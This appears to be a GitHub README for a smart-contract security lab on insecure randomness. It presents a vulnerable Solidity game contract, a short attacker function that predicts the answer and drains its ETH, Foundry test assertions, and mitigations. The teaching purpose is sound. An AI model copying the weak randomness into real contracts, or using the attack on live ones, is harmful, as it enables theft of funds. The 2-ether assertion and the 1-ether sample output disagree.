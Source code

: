 
# 01 — Insecure Randomness 🎲❌

This example demonstrates a critical vulnerability in smart contracts that use **predictable on-chain data** like `block.timestamp` and `blockhash` as sources of randomness.

> ❗️ Never use on-chain values for randomness in security-sensitive logic.

---

## 📉 Vulnerability Summary

Random numbers are essential for lotteries, raffles, and games in smart contracts. Many developers attempt to generate random numbers like this:

```solidity
uint256 answer = uint256(
    keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
) % 10;
```

However:
- `block.timestamp` can be slightly manipulated by miners
- `blockhash(block.number - 1)` is public and known within the same block

This leads to **predictable and exploitable randomness**.

---

## 🔬 Target Contract

**File:** `src/GuessTheRandomNumber.sol`

The contract:
- Accepts 1 ETH from the deployer
- Offers 1 ETH to anyone who correctly guesses the "random" number between 0–9
- Uses the following for pseudo-randomness:

```solidity
uint256 answer = uint256(
    keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
) % 10;
```

This is vulnerable to prediction by attackers who can:
- Simulate the same values off-chain
- Call the contract with the exact answer

---

## 🧨 Attack Contract

**File:** `test/TestAttackGuessTheNumber.t.sol`

The attacker contract:
- Simulates the same `keccak256` calculation
- Calls `guess()` with the correct answer
- Wins 1 ETH from the game contract

The attack is wrapped in a single function call:

```solidity
function attack(IGuessTheRandomNumber _game) public {
    uint256 answer = uint256(
        keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
    ) % 10;
    _game.guess(answer);
}
```

---

## 🧪 Foundry Test

**File:** `test/TestAttackGuessTheNumber.t.sol`

Tests:
- Simulate Alice deploying the game contract with 1 ETH
- Eve deploys the attacker contract
- Eve launches the attack and drains the funds

### ✅ Assertions

```solidity
assertEq(address(game).balance, 0);
assertEq(address(attacker).balance, 2 ether);
```

---

## 🧾 Run the Test

```bash
forge test
```

Expected output:

```
[PASS] testAttack() (gas: xxxx)
Logs:
  Game balance after attack: 0
  Attacker balance after attack: 1 ether
```

---

## 🔐 Mitigation

**✅ Never use on-chain data for randomness.**

### Use secure alternatives:

- ✅ [Chainlink VRF](https://docs.chain.link/vrf)
- ✅ Commit-reveal schemes (for low-stake games)
- ✅ Off-chain random number generation with verification

> 🧠 Always assume any on-chain value is visible and potentially manipulatable.

---

## 📁 Folder Structure

```
01-insecure-randomness/
├── src/
│   ├── GuessTheRandomNumber.sol   # Vulnerable contract
├── test/
│   └── TestAttackGuessTheNumber.t.sol # Foundry test file
├── foundry.toml                   # Foundry config
└── README.md                      # This file
```

---

## 📚 References

- [Solidity Security: Randomness](https://docs.soliditylang.org/en/latest/security-considerations.html#randomness)
- [Chainlink VRF](https://docs.chain.link/vrf)
- [Damn Vulnerable DeFi: Randomness](https://github.com/tinchoabbate/damn-vulnerable-defi)

---

## ✍️ Author

**Vishaal S (aka 0xvishh)**  
Smart Contract Auditor & Web3 Security Researcher  

- 🔗 [GitHub: @vishaalS7](https://github.com/vishaalS7)  
- 🧵 [X/Twitter: @0xvishh](https://x.com/0xvishh)  
- 📘 [Blog (Medium)](https://medium.com/@your-medium-handle) *(replace this)*

---

## 📝 Blog Post

📖 [Insecure Randomness — Explained with Code & Attack Demo](https://medium.com/@your-medium-handle/insecure-randomness-smart-contract-bug-top10) *(Replace with actual blog link)*

---

## 📌 Tags

`#Solidity` `#SmartContractSecurity` `#Randomness` `#BlockchainSecurity` `#Foundry` `#Top10Bugs`
